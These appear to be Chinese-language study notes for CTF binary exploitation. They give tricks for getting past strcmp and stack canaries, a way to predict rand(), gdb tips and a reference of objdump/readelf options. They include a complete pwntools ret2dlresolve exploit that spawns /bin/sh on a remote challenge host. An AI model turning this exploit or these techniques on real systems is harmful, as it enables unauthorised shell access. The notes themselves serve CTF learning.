

# 解题相关
1、strcmp函数遇到 ‘\0’会直接终止判断，所以对于题目中的该函数可以使用这种方法绕过
2、绕过canary可以通过格式化字符串漏洞来爆破出canary的值方式
3、srand函数为设置随机数种子的函数，在某些会产生随机数的题目在中，可以尝试使用覆盖随机数种子，然后使用给定的libc函数去调用随机数种子，以获得确定的随机数（看exp相关的2）

# 调试相关
1、gdb当中，可以使用set指令设置某个内存的内容 
x/5i 0x12345678 查看某个地址的汇编代码
加上l选项 就可以加上行号
# exp相关
1、对于python3中16进制地址的获取和转化，可以通过以下代码来进行
```
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
```
2、如何使用libc中的函数（随机数为例子） 
```
from ctypes import * 
libc = cdll.LoadLibrary('libc.so.6') 
rand = libc.rand()
``` 
3、对于32位的dl_runtime_resolve题目，可以通过以下工具
```
from pwn import *
context.log_level = 'debug'
context.binary = elf = ELF('./pwn-200')

offset = 112
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io = remote("61.147.171.105",52497)
io.recvuntil("\n")
payload = flat({offset:raw_rop, 256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```
# 工具相关
1、查看二进制程序的相关信息
objdump -h SimpleSection.o（-x会有更多信息）
查看内部结构
readelf -S ./elf
查看内部结构
objdump -s -j .plt/.dynsym/.dynstr/.rel.plt ./elf (-s参数可以将内容以十六进制打印)
查看相关地址
size ./xxx.o
查看elf文件的代码段，数据段和bss段的长度
objdump -s -d xxx.o
查看各个段的内容，-d参数可以将所有包含指令的段反汇编
readelf -h SimpleSection.o
查看ELF文件
readelf -S SimpleSection.o
查看SimpleSection的段表结构
objdump的使用方法
```
-f 显示文件头信息
-D 反汇编所有section (-d反汇编特定section)
-h 显示目标文件各个section的头部摘要信息
-x 显示所有可用的头信息，包括符号表、重定位入口。-x 等价于 -a -f -h -r -t 同时指定。
-i 显示对于 -b 或者 -m 选项可用的架构和目标格式列表。
-r 显示文件的重定位入口。如果和-d或者-D一起使用，重定位部分以反汇编后的格式显示出来。
-R 显示文件的动态重定位入口，仅仅对于动态目标文件有意义，比如某些共享库。
-S 尽可能反汇编出源代码，尤其当编译的时候指定了-g这种调试参数时，效果比较明显。隐含了-d参数。
-t 显示文件的符号表入口。类似于nm -s提供的信息*
```
2、nm SimpleSection.o查看符号结果


3、c++filt \_ZN1N1C4funcEi用来解析被修饰过的名称

